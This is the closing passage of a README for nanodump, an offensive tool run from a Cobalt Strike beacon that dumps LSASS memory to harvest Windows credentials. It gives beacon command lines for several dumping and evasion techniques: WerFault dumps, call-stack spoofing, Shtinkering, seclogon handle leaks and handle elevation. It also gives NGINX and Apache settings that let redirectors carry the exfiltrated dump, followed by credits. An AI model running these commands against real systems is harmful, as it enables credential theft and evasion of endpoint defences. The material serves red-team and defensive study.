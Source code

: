 Make the WerFault.exe process create a full memory dump in the Temp folder:
```
beacon> nanodump --werfault C:\Windows\Temp\
```

Open a handle to LSASS with an invalid callstack and download the minidump with an invalid signature:
```
beacon> nanodump --spoof-callstack svchost
```

Use the Shtinkering techinque:
```
beacon> nanodump --shtinkering
```

Obtain a handle using seclogon leak local and create the dump using the Shtinkering techinque:
```
beacon> nanodump --seclogon-leak-local --shtinkering
```

Obtain a handle with low privs and elevate it using _elevate handle_:
```
beacon> nanodump --elevate-handle
```

Obtain a handle with low privs using a valid calling stack and elevate it using _elevate handle_:
```
beacon> nanodump --elevate-handle --spoof-callstack rpc
```

Duplicate an existing low priv handle and elevate it using _elevate handle_:
```
beacon> nanodump --duplicate-elevate
```

<h2 id="redirectors">5. HTTPS redirectors</h2>

If you are using an HTTPS redirector (as you should), you might run into issues when downloading the dump filessly due to the size of the requests that leak the dump.  
Increase the max size of requests on your web server to allow nanodump to download the dump.

#### NGINX
```
location ~ ^...$ {
    ...
    client_max_body_size 50M;
}
```
#### Apache2
```
<Directory "...">
    LimitRequestBody  52428800
</Directory>
```

## Credits
- [skelsec](https://twitter.com/skelsec) for writing [minidump](https://github.com/skelsec/minidump), which was crucial for learning the minidump file format.
- [freefirex](https://twitter.com/freefirex2) from [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF) at Trustedsec for many cool tricks for BOFs
- [Jackson_T](https://twitter.com/Jackson_T) for [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2)
- [BillDemirkapi](https://twitter.com/BillDemirkapi) for [Process Forking](https://billdemirkapi.me/abusing-windows-implementation-of-fork-for-stealthy-memory-operations/)
- [Antonio Cocomazzi](https://twitter.com/splinter_code) for [Abusing leaked handles to dump LSASS memory](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html) and [Racing for LSASS dumps](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-3.html)
- [xpn](https://twitter.com/_xpn_) for [Exploring Mimikatz - Part 2 - SSP](https://blog.xpnsec.com/exploring-mimikatz-part-2/)